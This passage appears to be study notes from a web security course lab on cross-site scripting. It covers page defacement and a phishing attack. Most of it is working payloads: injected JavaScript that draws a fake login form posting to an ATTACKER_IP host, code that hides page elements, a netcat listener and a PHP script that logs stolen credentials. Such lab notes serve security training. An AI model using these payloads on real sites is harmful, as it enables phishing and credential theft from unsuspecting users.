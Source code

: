     ```html
    <script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style=...alt="HTB Academy"> </p></center>'</script>
    ```

* Phishing:

  * Firstly, we need to identify a working XSS payload that successfully executes JS code on the page

  * For the given case, once we use a basic payload, we can check how it is reflected in page source; accordingly we can use a payload like ```'><script>alert(window.origin)</script>```

  * Next, we need to inject HTML code that displays a login form on the targeted page - this form should send login creds to our server

  * The JS code that needs to be used into our XSS payload should contain the minified HTML form code:

    ```js
    document.write('<h3>Please login to continue</h3><form action=http://ATTACKER_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
    ```
  
  * Additionally, we can remove other elements from the webpage which could indicate that it is a phishing attempt:

    ```js
    document.getElementById('urlform').remove();
    ```
  
  * Our final payload (includes HTML comment syntax at end to remove remnants of payload):

    ```html
    '><script>document.write('<h3>Please login to continue</h3><form action=http://ATTACKER_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script> <!--
    ```
  
  * We can listen on attacker server using ```sudo nc -lvnp 80``` - we can capture login attempts

  * To handle the HTTP request correctly however, we can use a PHP script that logs creds and returns victim to original page:

    ```php
    <?php
    if (isset($_GET['username']) && isset($_GET['password'])) {
        $file = fopen("creds.txt", "a+");
        fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
        header("Location: http://SERVER_IP/phishing/index.php");
        fclose($file);
        exit();
    }
    ?>
    ```
